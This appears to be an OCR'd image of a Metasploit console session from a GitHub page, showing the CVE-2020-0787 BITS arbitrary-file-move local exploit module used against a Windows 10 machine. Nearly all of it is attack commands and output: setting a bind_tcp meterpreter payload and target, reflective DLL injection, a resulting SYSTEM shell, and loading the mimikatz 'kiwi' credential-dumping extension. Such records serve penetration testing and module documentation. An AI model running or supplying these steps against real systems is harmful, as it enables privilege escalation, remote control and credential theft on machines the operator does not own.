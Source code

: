 ```
   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows DLL Dropper


msf5 exploit(windows/local/cve_2020_0787_bits_arbitrary_file_move) > set SESSION 2
SESSION => 2
msf5 exploit(windows/local/cve_2020_0787_bits_arbitrary_file_move) > set PAYLOAD windows/meterpreter/bind_tcp
PAYLOAD => windows/meterpreter/bind_tcp
msf5 exploit(windows/local/cve_2020_0787_bits_arbitrary_file_move) > set LPORT 6666
LPORT => 6666
msf5 exploit(windows/local/cve_2020_0787_bits_arbitrary_file_move) > set RHOST 172.22.177.183
RHOST => 172.22.177.183
msf5 exploit(windows/local/cve_2020_0787_bits_arbitrary_file_move) > exploit

[*] Step #1: Checking target enviroment...
[*] Step #2: Generating the malicious DLL...
[*] Payload DLL is 5120 bytes long
[*] Step #3: Loading the exploit DLL to run the main exploit...
[*] Launching notepad to host the exploit...
[+] Process 1512 launched.
[*] Reflectively injecting the exploit DLL into 1512...
[*] Injecting DLL into 1512...
[*] DLL injected. Executing injected DLL...
[*] Sleeping for 60 seconds to allow the exploit to run...
[*] Step #4: Attempting to start the USO service to trigger the payload...
[*] Launching notepad to host the exploit...
[+] Process 1424 launched.
[*] Remember to migrate to another SYSTEM process, then find the PID of usocoreworker.exe and delete it.
[*] Finally, delete the file at C:\Windows\System32\WindowsCoreDeviceInfo.dll
[*] Also be sure to delete the most recently created directory under C:\Users\test\AppData\Local\Temp!
[*] Started bind TCP handler against 172.22.177.183:6666
[*] Sending stage (176195 bytes) to 172.22.177.183
[*] Meterpreter session 3 opened (0.0.0.0:0 -> 172.22.177.183:6666) at 2020-06-08 07:40:03 -0500

meterpreter > sysinfo
Computer        : DESKTOP-PL99PE8
OS              : Windows 10 (10.0 Build 18362).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x86/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
```